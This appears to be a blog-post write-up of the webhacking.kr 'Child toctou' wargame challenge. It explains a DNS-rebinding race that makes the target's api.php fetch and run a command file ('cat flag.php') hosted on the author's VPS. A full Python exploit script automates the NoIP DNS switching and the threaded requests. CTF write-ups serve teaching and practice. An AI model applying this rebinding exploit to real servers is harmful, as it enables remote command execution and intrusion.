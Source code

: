 ```yaml
---
layout: post
title: "[Webhacking.kr] Child toctou 🚲 writeup (cont'd)"
categories: hacking writeup web
---
```


## Introduction
Link: [http://webhacking.kr:10020/](http://webhacking.kr:10020/)

In the last part, I have found the vulnerable code in `api.php`. The only thing that prevented me from solving that
was the dynamic DNS functionality. With the suggestion from a friend, I finally found a way to make my exploitation
idea work.

## The exploitation

### Dynamic DNS

NoIP's Dynamic DNS service is a free service that allows us to create a DNS record. Let's make use of that.

![change_dns](/assets/images/child-toctou/change_dns.png)

But I don't want to do it manually, so I inspect the API calls on the site, and convert to Python for automation. Fortunately, modern browsers (Tested on Firefox and Chrome) support copying a request as cURL, and there is an [online service](https://curlconverter.com/) that converts cURL commands to Python code.

![curl](/assets/images/child-toctou/inspector.png)

### DNS Resolver

Python can use OS's DNS resolver with `socket.gethostbyname` method, but it is slow and behind DNS caching mechanisms which can not be bypassed. So I used `dnspython` library.

One thing I noticed was when changing DNS record, DNS servers don't reflect the change immediately. There are some jumpings back and forth between the old and the new IPs. So my code didn't reliably work every time, but that is okay because I just need to see the flag once and I'm done.


### Exposing my server

Now how do I expose my server to carry the payload? I tried using ngrok, but ngrok free plan can not expose a specific port. So I decided to buy a cheap VPS from Vultr with an public IPv4 address.
One notice is Vultr blocks all incoming traffic except on port 22 (SSH) by default, so in order to expose port 10020, we need to unblock it first

```sh
sudo ufw allow from 202.182.106.159 proto tcp to any port 10020 
```

After creating the required folder structure, I ran the server

```sh
mkdir cmd
echo "cat flag.php" > cmd/ls.txt
python3 -m http.server 10020
```

## Exploitation code

__Warning: Sensitive information got stripped off the script, so it won't run.__
```python
import requests, threading, time
import dns.resolver as dns

g_done = False

def __noip_request(ip):
    cookies = {
        'REF_CODE': 'https%3A%2F%2Fwww.noip.com%2Fmembers%2Fdns%2F',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    }

    params = {
        'host_id': '******',
    }

    data = {
        'token': '******',
        'host[host]': 'l4rzy',
        'host[domain]': 'ddns.net',
        'host[ttl]': '60',
        'host[group_id]': '0',
        'host[type]': 'a',
        'host[ip]': ip,
        'nlocations': '0',
        'host[alias]': '',
        'host[ipv6]': '',
        'host[aname]': '',
        'host[port][ip]': '',
        'host[port][port]': '8080',
        'host[redirect][protocol]': 'https',
        'host[redirect][url]': '',
        'host[mask][title]': '',
        'host[mask][meta_keywords]': '',
        'host[mask][meta_desc]': '',
        'host[mx][0][mx]': '',
        'host[mx][0][priority]': '5',
        'do': 'update',
    }

    response = requests.post('https://www.noip.com/members/dns/host.php', params=params, cookies=cookies, headers=headers, data=data)


def change_dns(toMyServer = True):
    __noip_request('******' if toMyServer else '202.182.106.159')


def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10020/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
        'Host': 'l4rzy.ddns.net',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10020/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    result = response.text
    if "flag{" in result:
        print(result)
        g_done = True

def check_ip(host, ip):
    result = dns.resolve(host, 'A')
    for i in result:
        resolved = i;
    print(resolved, flush=True)
    return resolved.to_text() == ip

def check_ip_times(host, ip, times):
    for i in range(times):
        if check_ip(host, ip) == False:
            return False
    return True

print('[info] changing the DNS A record to the designated IP ...')
ip_set = check_ip('l4rzy.ddns.net', '202.182.106.159')

if ip_set == False:
    change_dns(toMyServer = False)
    while ip_set ==  False:
        ip_set = check_ip_times('l4rzy.ddns.net', '202.182.106.159', 2)
        time.sleep(1)
        
print('done')
# ---------------------
print('[info] redirecting to our site ...', flush=True)
change_dns()
print(f'[info] getting in ...')

while not g_done:
    check_ip('l4rzy.ddns.net', '******')
    jobs = list()
    for i in range(10):
        jobs.append(threading.Thread(target=send, args=('ls',)))
        jobs[i].start()
        
    for i in range(10):
        jobs[i].join()
```

And when we see a bunch of requests like this on our server, the challenge got pwned.

![server_output](/assets/images/child-toctou/server_output.png)

## Conclusion
I was surprised that there were only 18 people have solved this challenge (I was the 19th). I believe many people have the idea to solve, but the process of solving it is a little bit cumbersome.

P.S. So just after solving the 2 toctou challenges, I just happened to know that TOCTOU was a class of software bugs. The idea behind this class of bugs is to exploit the time window between two calls to modify a state. Read more on wiki: [https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)